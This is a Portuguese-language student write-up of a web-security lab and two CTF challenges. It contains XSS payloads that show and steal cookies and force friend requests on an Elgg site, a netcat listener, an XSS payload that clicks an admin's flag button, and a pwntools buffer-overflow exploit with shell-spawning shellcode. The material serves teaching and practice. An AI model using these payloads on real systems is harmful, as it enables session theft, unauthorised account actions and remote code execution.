





# TASKS
## 3.1 Preparation
Nesta tarefa, tentamos explorar a ferramenta `HTTP Header Live`. Começamos por instalá-la no browser, e após a instalação, análisámos o pedido de `login` e os pedido dos componentes `html`.
Percebemos que através da ferramenta, conseguimos analisar não só o tipo do pedido, bem como os parâmetros enviados, podendo também observar qual a resposta recebida por exemplo.

# COLOCAR IMAGEM DOS PEDIDOS

## 3.2 Task 1: Posting a Malicious Message to Display an Alert Window
Inicialmente, começamos por tentar perceber onde é que poderiamos embeber o programa `javascript` na nossa página, de forma a que este fosse executado sempre que alguém abrisse o perfil do utilizador em questão (no nosso caso, iniciamos sessão com `user: alice` e `password: seedalice`). Assim, reparamos que era possível editar o _user profile_ onde haviam vários campos onde era possível escrever texto. Como no campo `About me` era possível escrever texto em `html`, colocamos lá
```html
<script>alert('XSS')</script>
```
tal como o exercício pedia, obtendo o seguinte resultado:



## 3.3 Task 2: Posting a Malicious Message to Display Cookies
Tal como na tarefa anterior, esta consiste em embeber `javascript` no nosso perfil, de tal forma que, quando um utilizador visualizar o nosso perfil, serão expostas as suas _cookies_ numa janela de alerta. Para a obtenção das _cookies_ apenas tivemos de aceder ao atributo `cookie` do objeto `document`, ou seja, `document.cookie` que as retorna no formato:

`pvisitor%3Dbd49b186-afdd-4310-97e8-a73a10dfd370%3B%20Elgg%3Dvgn7o23sogsro7sf07epru1itm`

Assim, para a realização desta tarefa bastou apenas alterar o conteúdo do `alert` da tarefa anterior para `document.cookie` que resultou no seguinte:


## 3.4 Task 3: Stealing Cookies from the Victim’s Machine
Nesta tarefa, o objetivo passa por, como atacante, obter as _cookies_ do utilizador que visitar a página que contém o `javascript` embebido. Para tal, o código malicioso tem que nos mandar um pedido HTTP com as cookies do utilizador.
Conseguimos isto utilizando a _tag_ `img`, modificando o atributo `src`, de forma a que no momento em que o browser tente carregar a imagem, nos envie o pedido com os dados pretendidos  (neste caso as _cookies_). 

```html
<script>
    document.write('');
</script>
```

Para receber o pedido com as cookies, corremos o comando `nc -lknv 5555`, que nos coloca à escuta na porta 5555 (para onde colocamos o `javascript` embebido a enviar o pedido). Tal como esperado o pedido `get` vem com as cookies anexadas ao `URL`.



## 3.5 Task 4: Becoming the Victim’s Friend
Para a resolução desta tarefa, tivemos de perceber melhor o funcionamento das solicitações de amizade da plataforma. Assim, e recorrendo ao excerto de código que nos foi fornecido, apenas tivemos de construir o `url` que iria ser utilizado no momento do envio do pedido para o servidor para que conseguissemos enviar uma solicitação de amizade de alguém para o Samy sempre que esse alguém vistasse o seu perfil.
Deste modo, embebendo o seguinte extrato `html`na secção `About me` do perfil do Samy, no modo `Edit HTML`:
```html
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;

        //Construct the HTTP request to add Samy as a friend.
        var sendurl= `http://www.seed-server.com/action/friends/add?friend=59${ts}${token}`

        //Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```
toda vez que alguém entrasse no perfil do Samy, era efetuada uma solicitação de amizade, o que levava a que o visitante e o Samy se tornassem amigos.

# CTF

## CTF 1
Para a primeira ctf, reparamos que era possível escrever numa caixa de texto, e o texto que escrevessemos ficava dentro de uma `div` estando por isso suscetível à vulnerabilidade de `XSS` embebendo `javascript` no nosso pedido. Após exploração do site foi possível verificar a existência de dois botões, aos quais o utilizador não tem acesso, mas que, pensamos que estariam disponíveis ao admin, para que este pudesse determinar o destino do nosso pedido (aceitar ou rejeitar). Como o admin teria de ler o nosso pedido, constituído pelo nosso _input_, estaria vulnerável a `XSS` que fosse por nós, lá embebido.
Após inspeção do HTML foi possível determinar que o botão `give the flag` (que seria utilizado pelo admin para aceitar a justificação e, portanto, enviar a _flag_) tinha como id `give_flag` pelo que o pedido que deviamos enviar na caixa de texto seria:
```html
<script> document.getElementById('give_flag').click() </script>
``` 
Assim quando o admin fosse avaliar o pedido, o script corria e clicava automaticamente no botão para dar a flag, aceitando a nossa justificação.

## CTF 2
Após corrermos o `checksec` no `program`, reparamos que a única medida de proteção era o `PIE` estar _enabled_ (sendo possível a execução na _stack_) o que nos teria de levar a ser mais cuidadosos, porque o _buffer_ não tinha sempre o mesmo endereço de memória (pois os endereços eram gerados aleatoriamente a cada execução). No entanto o próprio programa dava _leak_ do endereço do _buffer_ o que nos facilita o _exploit_.
Após corrermos o `gdb` da seguinte forma:



conseguimos obter o _offset_ do endereço de retorno:



que neste caso é `108`. 

Assim para construirmos a `payload` precisamos primeiramente de `shellcode` que abra uma _shell_. Este `shellcode` irá ser posicionado no fim da `payload` precedido de `NOP's` de forma a aumentar as chances de sucesso. Utilizando a biblioteca `pwn tools` podemos ler o _leak_ do programa e usá-lo para construir a nossa `payload`. Assim, podemos fazer com que o nosso endereço de retorno seja `&buffer + 128` (de forma a que o endereço de retorno aponte para um `NOP`, pois irá a apontar para uma área por nós preenchida).
Deste modo, o programa irá de `NOP` em `NOP` até chegar ao nosso shellcode que abre uma _shell_.
O _script_ `Python` realiza o que foi descrito anteriormente: 

```python
#!/usr/bin/python3
import sys
from pwn import *  
p = remote("ctf-fsi.fe.up.pt", 4001)

line1 = p.recvline() #1st output line
line2 = p.recvuntil("s ") #2nd output line without adrress
line3 = p.recvuntil(".") #Buffer address with .
line3 = line3[:-1] #Buffer address

# Shellcode to open a shell
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80" 
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(4096))

##################################################################
# Put the shellcode somewhere in the payload
start = 4050            # End of content 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret  = int(line3.decode("utf-8"),16) + 128     # Where to return 
offset = 108             # Offset 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################
p.sendline(content)
p.interactive()
```

Por fim, com a nova _shell_ aberta, basta executar `cat flag.txt` para obtermos a _flag_. 
